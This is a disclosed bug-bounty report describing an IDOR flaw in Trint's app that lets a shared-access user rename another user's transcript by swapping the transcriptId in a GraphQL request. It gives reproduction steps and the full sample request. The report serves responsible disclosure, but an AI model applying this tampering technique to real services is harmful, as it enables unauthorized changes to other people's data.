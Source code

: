 # IDOR in changing shared file name

## Report Details
- **Report ID**: 547663
- **URL**: https://hackerone.com/reports/547663
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2019-04-24T13:41:15.169Z
- **Disclosed**: 2019-06-22T13:30:51.093Z

## Reporter
- **Username**: dhakal_ananda
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: trint

## Vulnerability Information
## Summary:
Hi Trind LTD,
I have found a IDOR vulnerability in https://app.trint.com . An user can change shared file names through this IDOR.

## Steps To Reproduce:

1. Create a file from account B
2. Capture the request of renaming the file as shown in **sample request**
3. Create a file [from account A] and share it with another user [account B] 
4. Change the **transcriptId** to shared file's transcriptid
5. Boom! The name of shared file is changed

***Sample Request:***
```
POST / HTTP/1.1
Host: graphql2.trint.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:66.0) Gecko/20100101 Firefox/66.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://app.trint.com/trints
content-type: application/json
Authorization: Bearer token..
X-Trint-Request-Id: 34ba5627-d874-4be1-8f9b-5b1415c2f0a5
X-Trint-Super-Properties: {"distinct_id":"5cc05c8f03c35799283fe3b7","$device_id":"16a4f88b2e22dc-07342bd7a0305c8-4c312c7c-144000-16a4f88b2e3be9","$initial_referrer":"$direct","$initial_referring_domain":"$direct","returningUser":true,"$user_id":"5cc05c8f03c35799283fe3b7"}
Origin: https://app.trint.com
Content-Length: 536
Connection: close

{"operationName":"updateTranscriptMeta","variables":{"userId":"5cc05c8f03c35799283fe3b7","transcriptId":"dM3YxaINQGyWceq5rUzVog","transcriptName":"W00"},"query":"mutation updateTranscriptMeta($userId: String!, $transcriptName: String!, $transcriptId: String!) {\n  updateTranscriptMeta(userId: $userId, transcriptMeta: {trintTitle: $transcriptName}, transcriptId: $transcriptId) {\n    ...RenameTrintFragment\n    __typename\n  }\n}\n\nfragment RenameTrintFragment on TrintMetadata {\n  _id\n  trintTitle\n  updated\n  __typename\n}\n"}
```

## Impact

Unauthorized users could change the file name. It is not allowed to rename the file for shared users but it is bypassed here through IDOR.

## Attachments
No attachments
